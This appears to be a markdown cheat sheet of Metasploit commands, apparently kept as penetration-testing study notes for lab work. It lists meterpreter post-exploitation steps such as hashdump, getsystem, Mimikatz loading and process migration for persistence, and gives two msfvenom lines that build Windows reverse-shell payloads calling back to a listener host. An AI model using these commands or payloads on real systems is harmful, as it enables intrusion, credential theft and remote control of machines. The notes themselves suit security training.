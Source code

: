 # Metasploit Command Syntax

<p align="center"><img alt="Metasploit Logo" src="https://miro.medium.com/v2/resize:fit:1400/1*waFDh88WH0YeIK3xMP6TjA.png" width=500 /></p>

Metasploit or the Metasploit Framework is a tool that is used to develop and execute exploit code agains remote target machines. Since this tool is very large, a separate document for its commands seemed appropriate.

</br>

## Table of Contents

- [Main commands to use MetaSploit](#main-commands-to-use-metasploit)
- [Other usefull commands](#other-usefull-commands)
- [Metasploit Modules](#metasploit-modules)
- [MSFVenom Commands](#msfvenom-commands)
- [Database/workspaces](#databaseworkspaces)

> [!NOTE]
> Some of these commands can only be used after a (meterpreter) shell has been made to another machine. These will be marked with a 💲. Others must be used outside of these shells.

<br>

## Main commands to use MetaSploit

```
search                 > Look for a module to use
use                    > Load the specific module
options                > View any options you need to set
set <options>          > Set the specified option
run                    > Run the exploit
exploit                > Run the exploit
```

<br>

## Other usefull commands

#### 💲 Information gathering

```
getuid                 > Get the current user
getprivs               > Get the priveleges for the current user
sysinfo                > Get info on the system
```

#### 💲 Kiwi/Mimikatz can be loaded into the session

```
load kiwi              > help now shows more commands
```

#### 💲 Menu, go back to from session

```
background
```

#### 💲 Move/migrate to another process (for priveleges)

```
migrate -N <process name>
```

#### 💲 Passwords

```
hashdump                > Dumps all the hashes available on a computer when the required priveleges are met.
```

#### Payloads

```
show payloads           > When a module is selected it will list compatible payloads
set payload <id>        > Selects the listed payload with the corresponding number.
set payload <name>      > Selects the payload with the corresponding name.
```

#### 💲 Privelege escalataion (for Windows at least)

```
getsystem               > when in a meterpreter session
```

#### 💲 Quiting or closing a session

```
quit 				
```

#### Search exploits

```
use post/multi/recon/local_exploit_suggester        > Can be used to find any vulnerabilities on the system. Does need an active session.
```

#### Searching for modules

```
search <keyword 1> <kayword 2> ...
```

#### Sessions

```
sessions                > show all
sessions -i <id>        > select and go to session
sessions -u             > upgrade shel to meterpreter shell
sessions -k <id>        > kill selected session
```

#### 💲 Shell creation after exploiting

```
shell                             > 
```

#### Shell conversion to Meterpreter

```
post/multi/manage/shell_to_meterpreter          > Converts a regular shell to a meterpreter session
```

#### Show various possibilities (payloads/exploits etc.)

```
show payloads                      > show payloads
show exploits                      > show exploits
show -h                            > show help
```

## Metasploit Modules

Some usefull modules that can be used in Metasploit.

```
run post/windows/manage/migrate
> Run the migrate module that can be used to inject into another process to create persistence
```

<br>

##  MSFVenom Commands

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.18.78.136 LPORT=443 -b '\x0a\x0d\x00' -f c

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

🔰 msfvenom argument | ℹ️ Function
-- | --
**`-l / --list formats`** | Show all available formats
**`-l / --list payloads`** | Show all available payloads
**`-e`** | Specifies the encoding format
**`-f`** | Specifies the output format (extension)
**`-o`** | Specifies the output location

<br>

## Database/workspaces

#### Outside of Metasploit

```
systemctl start postgresql      > Start postgreSQL used by Metasploit
sudo msfdb init                 > start Metasploit database
```

#### Inside metasploit

```
db_status                       > Check database status
```

#### Workspaces

```
workspace                       > List workspaces
workspace -a tryhackme          > Add workspace
workspace default               > Select workspace
```

```
set hosts -R                    > Setting an RHOSTS options as the one stored in the database
```



<!--- 

💲 ❕ ➡️

## TITLE

### Usefull documentation

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

### Related tools

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

<br>

--->
